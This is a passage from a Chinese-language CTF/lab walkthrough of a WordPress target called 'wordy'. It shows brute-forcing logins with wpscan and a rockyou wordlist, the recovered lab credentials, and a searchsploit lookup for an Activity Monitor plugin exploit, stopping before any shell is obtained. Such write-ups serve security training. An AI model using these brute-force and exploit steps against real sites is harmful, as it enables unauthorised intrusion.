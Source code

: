 进入目录找到，发现文件未解压

对文件进行解压

```
gunzip rockyou.txt.gz
```

![image-20220317135406826](https://gitee.com/xxb667/img/raw/master/img/image-20220317135406826.png)

## 2.3 暴力破解

```
wpscan --url http://wordy/ -U users.txt -P passwords.txt
```

![image-20220317142230402](https://gitee.com/xxb667/img/raw/master/img/image-20220317142230402.png)

得到的用户名和密码

```
用户名：mark
密码：helpdesk01
```



# 3.getshell

## 3.1 登录wordpress

登录wordpress发现只是普通用户 不能上传文件getshell

插件getshell

```
http://wordy/wp-login.php
```

![image-20220317142920174](https://gitee.com/xxb667/img/raw/master/img/image-20220317142920174.png)

![image-20220317142959415](https://gitee.com/xxb667/img/raw/master/img/image-20220317142959415.png)

## 3.2 getshell

kali本地搜索：

```
searchsploit activity monitor
```

![image-20220317143242186](https://gitee.com/xxb667/img/raw/master/img/image-20220317143242186.png)

找到50110.py文件

```
locate 50110.py
```
